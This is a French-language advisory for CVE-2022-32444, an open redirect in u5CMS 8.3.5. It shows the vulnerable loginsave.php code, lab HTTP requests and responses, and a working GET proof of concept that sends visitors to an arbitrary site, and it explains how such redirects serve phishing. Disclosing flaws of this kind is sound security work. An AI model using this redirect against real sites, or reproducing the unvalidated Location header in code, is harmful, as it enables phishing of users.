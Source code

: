 # CVE-2022-32444

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** Open Redirect ([CWE-601 - URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html))

La version 8.3.5 d'u5CMS est vulnérable à une faille de type Open Redirect via le paramètre d'URL `u` de la page `/loginsave.php`.

![](<../../.gitbook/assets/image (6) (1) (1).png>)

## Analyse de la vulnérabilité

La page `loginsave.php` est appelée suite à la soumission du formulaire d'authentification disponible à l'URL `/u5admin/` :&#x20;

![](<../../.gitbook/assets/image (2) (1).png>)

La présence du paramètre `u` est visible directement dans la cible du formulaire et a pour valeur `u5admin` :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

La requête est alors la suivante :&#x20;

```http
POST /u5cms-8.3.5/loginsave.php?u=u5admin HTTP/1.1
Host: 192.168.56.101
Content-Length: 42
Origin: http://192.168.56.101
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.56.101/u5cms-8.3.5/u5admin/
Cookie: i1_l=P; i2_l=d; pidvesa=a; aclan=fr
Connection: close

u=sh4rpforc0rc3%40gmail.com&p=password
```

La réponse est une 302 redirigeant l'utilisateur vers la page d'administration du CMS :

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:37:16 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Set-Cookie: u=sh4rpforc0rc3%40gmail.com; path=/; HttpOnly
Set-Cookie: p=2e6b6cdb26604865418a4814561a43d99ba549e3; path=/; HttpOnly
Location: u5admin?1655937436
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

Une fois la redirection effectuée, l'utilisateur se retrouve sur la page d'administration du CMS `/u5admin/` :

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1).png>)

En général, une faille de type OpenRedirect sur une mire de connexion peut s'exploiter de la façon suivante :&#x20;

1. L'URL de la mire est semblable à `http://exemple.com/auth?redirect=openredirectvulnerability`
2. L'attaquant soumet cette URL, en adaptant la valeur désirée au paramètre `redirect`, à sa victime
3. La victime renseigne ses identifiants et se retrouve redirigée vers l'URL renseignée par l'attaquant

Dans le cadre de u5cms puisque l'exploitation de la vulnérabilité est accessible directement en GET en soumettant l'URL `http://u5cms-host/u5cms-8.3.5/loginsave.php?u=openredirectvulnerability`, qu'importe que la victime soit authentifiée ou non :&#x20;

```http
GET /u5cms-8.3.5/loginsave.php?u=https://google.fr HTTP/1.1
Host: 192.168.56.101
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

```http
HTTP/1.1 302 Found
Date: Wed, 22 Jun 2022 22:54:42 GMT
Server: Apache/2.4.38 (Debian)
X-XSS-Protection: 0
Location: https://google.fr?1655938482
Content-Length: 0
Connection: close
Content-Type: text/html; charset=latin1
```

## Code vulnérable

Le fichier `loginsave.php` va récupérer la valeur du paramètre `u` et y effectuer un léger traitement :&#x20;

* récupérer la valeur dans `$u[0]` et des possibles fragments d'URL dans `$u[1]`
* rediriger l'utilisateur vers `index.php` si la valeur `$u[0]` est une chaine vide
* concaténer un timestamp dans l'URL grâce à la méthode `time()`
* rediriger l'utilisateur vers la valeur contenu dans `$u[0]`

{% code title="loginsave.php" %}
```php
$u=explode('#',$_GET['u']);
if(isset($u[1]))
  $u[1]='#'.$u[1];
else 
  $u[1]='';

if(trim($u[0])=='')
  $u[0]='index.php';
if(strpos($u[0],'?')>1)
  $u[0].='&'.time().$u[1];
else 
  $u[0].='?'.time().$u[1];

header("Location: ".$u[0]);
```
{% endcode %}

## Ressources

* [https://github.com/u5cms/u5cms/issues/50](https://github.com/u5cms/u5cms/issues/50)
